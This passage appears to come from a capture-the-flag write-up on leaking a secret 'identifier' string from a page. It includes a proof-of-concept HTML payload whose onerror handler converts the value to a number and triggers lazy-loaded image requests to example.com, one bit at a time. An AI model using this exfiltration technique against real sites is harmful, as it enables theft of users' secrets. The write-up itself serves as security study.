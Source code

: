 Although I felt that it was impossible to get the nth character and was stuck in the problem, I had a bold idea.

I cannot get the nth character of a string, but what about a number? Can I get it through a series of mathematical operations? For example, to get 2 from 123, it would be something like 123/10%10 (although it will come out as a decimal). Or directly using binary, `num&1` can tell you the last bit of num, `num&2` can tell you the second to last bit, and so on, so you can know what each bit is.

However, the identifier is not a number, so what should we do? Find a way to convert it to a number! If the identifier only contains 0-9a-z, we can add `0x` in front of it and convert it to a number using `+`. Finally, it will look like this:

``` js
<body>
  <div style=height:9999px id=a>0x</div>
  <img src=https://example.com/x00 id=x00 loading=lazy>
  <img src=https://example.com/x01 id=x01 loading=lazy>
  <img src=https://example.com/x10 id=x10 loading=lazy>
  <img src=https://example.com/x11 id=x11 loading=lazy>
  <img src=https://example.com/x20 id=x20 loading=lazy>
  <img src=https://example.com/x21 id=x21 loading=lazy>
  <img src=x onerror=
a.innerText+identifier&1?x01.loading++:x00.loading++;
a.innerText+identifier&2?x11.loading++:x10.loading++;
a.innerText+identifier&4?x21.loading++:x20.loading++ >

</body>
<script>
  var identifier = 'a4' // 164
  // 10100100
  
</script>
```

Note that the operator's priority must be considered. If the order is not as expected, it may not work properly. For example, `+'0x'+identifier` will execute `+0x` first, rather than concatenating the strings. The `&` operator will try to convert to a number first, which is why it can be used in this way.

The above POC proves that if we can convert the identifier to a number, we can solve this problem. However, the identifier may contain characters above `f`, and the probability of being able to convert it to a number is very low, less than 0.01%, and it takes an average of ten thousand attempts to succeed.

Although this probability is unacceptable, at least I know that the weakened version can be solved.

## Relying on Hints Again

After solving the weakened version, I thought it was almost over. Maybe my direction was wrong, and it was not solved in this way?

Because I really couldn't figure out how to get `identifier[n]`, I thought it was impossible.

At this point, I saw a new hint:
